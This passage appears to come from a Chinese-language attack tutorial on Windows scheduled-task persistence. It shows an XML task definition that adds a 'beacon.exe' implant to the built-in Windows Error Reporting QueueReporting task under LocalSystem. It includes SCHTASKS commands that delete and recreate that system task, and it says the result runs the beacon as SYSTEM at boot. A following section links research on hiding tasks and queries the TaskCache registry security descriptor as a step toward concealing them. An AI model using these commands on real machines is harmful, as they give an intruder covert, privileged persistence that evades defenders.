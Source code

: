 ```xml
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>%windir%\system32\wermgr.exe</Command>
      <Arguments>-upload</Arguments>
    </Exec>
    <Exec>
      <Command>C:\Users\123\Desktop\beacon.exe</Command>
    </Exec>
  </Actions>
</Task>
```

删除源任务，新建任务。

```bash
PS C:\Users\123> SCHTASKS /Delete /TN '\Microsoft\Windows\Windows Error Reporting\QueueReporting' /F
成功: 计划的任务 "\Microsoft\Windows\Windows Error Reporting\QueueReporting" 被成功删除。
PS C:\Users\123> SCHTASKS /Create /TN '\Microsoft\Windows\Windows Error Reporting\QueueReporting' /XML Desktop/task.txt
成功: 成功创建计划任务 "\Microsoft\Windows\Windows Error Reporting\QueueReporting"。
```

机器启动后就算不解锁进入桌面，也成功以 SYSTEM 权限运行 beacon.exe。

#### 2.1.5 隐藏任务⚒️

[Windows 计划任务的进阶 | AnonySec'Blog (payloads.cn)](https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html)

[计划任务 | Raven Medicine (raven-medicine.com)](https://raven-medicine.com/books/ec8ce/page/ef575)

[（英文）隐藏 Windows 计划任务的新方法 (researchgate.net)](https://www.researchgate.net/publication/361444433_New_Methods_to_Hide_Windows_Scheduled_Tasks)

[Tarrask 恶意软件使用计划任务进行防御规避 - Microsoft 安全博客](https://www.microsoft.com/en-us/security/blog/2022/04/12/tarrask-malware-uses-scheduled-tasks-for-defense-evasion/)

[计划任务篡改 |使用安全™实验室 (withsecure.com)](https://labs.withsecure.com/publications/scheduled-task-tampering)

目录梳理，Google 搜索：[Hidden Scheduled Tasks - Google 搜索](https://www.google.com/search?q=Hidden+Scheduled+Tasks&sxsrf=APwXEdd24dyK9HQAodY6Ool3w6vvmdtwnw:1682584713382&ei=iTRKZLGKF5ia0-kP6sOekA8&start=0&sa=N&ved=2ahUKEwjx8pTB1Mn-AhUYzTQHHeqhB_I4ChDy0wN6BAgFEAQ&biw=1488&bih=762&dpr=1.2)

##### 删除注册表 SD

SD (security descriptor)

```bash
PS C:\Users\123> REG QUERY 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree'

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree
    SD    REG_BINARY    01000494C4000000D000000000000000140000000200B0000800000000021800FF011F0001020000000000052000000020020000000118009F011F000102000000000005200000002002000000021400FF011F00010100000000000512000000000114009F011F00010100000000000512000000000214001601120001010000000000050B00000000021400160112000101000000000005140000000002140016011200010100000000000513000000000B1400FF011F00010100000000000300000000010100000000000512000000010100000000000512000000

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineCore
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineUA
```